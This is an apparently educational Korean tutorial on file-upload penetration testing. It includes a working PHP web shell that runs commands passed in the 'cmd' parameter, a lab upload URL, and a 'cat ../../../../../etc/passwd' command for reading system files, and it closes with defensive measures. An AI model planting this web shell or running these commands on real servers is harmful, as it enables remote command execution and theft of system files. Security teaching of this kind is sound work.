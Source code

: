 # 파일 업로드 모의해킹
파일 업로드 모의해킹은 웹 사이트에서 파일을 업로드할 때, 업로드 된 파일이 악성 코드를 포함하고 있는지 확인하지 않아 발생하는 보안 취약점입니다.

## 공격 실습

![file_upload]

공격에 사용될 웹쉘 파일을 업로드 합니다. 웹쉘(Web Shell)은 웹을 통해 원격에서 서버에 접근하여 명령어를 실행할 수 있는 프로그램입니다. 웹쉘은 서버의 취약점으로부터 공격자가 접근한 후, 웹상에서 명령어를 실행하고 서버를 제어할 수 있습니다.

다음은 웹쉘 코드(webshell.php)의 예시 입니다.
```php
<?php

echo 'Enter a Command:<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';					

/*
	echo 부분은 명령어를 입력받을 수 있는 폼을 제공
    공격자가 입력 폼에 명령어를 입력하면 cmd 파라미터를 통해 전달된다.
*/

if(isset($_GET['cmd'])){
	system($_GET['cmd']);
}
//system 함수를 통해 전달된 명령어가 실행된다.

?>
```

업로드된 파일의 다운로드 주소를 살펴보면 `http://192.168.219.180/upfiledata/webshell.php` 이와같이 설정되어있음을 알 수 있습니다.    
이 주소로 이동하면 다음과같이 명령어를 실행시킬 수 있는 웹쉘이 실행됨을 볼 수 있습니다.

![file_upload_webshell]

위와같이 입력란에 `cat ../../../../../etc/passwd` 를 입력하여 passwd 파일을 탈취할 수 있습니다.

## 방어 방법
- 파일 확장자 제한 : 업로드 가능한 파일 확장자를 제한함으로써, 일반적인 파일 형식이 아닌 파일은 업로드가 불가능하도록 할 수 있습니다.
- 파일 크기 제한 : 업로드 가능한 파일의 최대 크기를 제한함으로써, 대용량 파일의 업로드를 방지할 수 있습니다.
- 파일 유형 검사 : 업로드된 파일을 검사하여, 악성 코드를 포함하고 있는지 여부를 판단하여 업로드를 차단하도록 할 수 있습니다.
- 파일 이름 변경 : 업로드된 파일의 이름을 무작위로 변경하여, 악성 코드가 실행되지 않도록 할 수 있습니다.

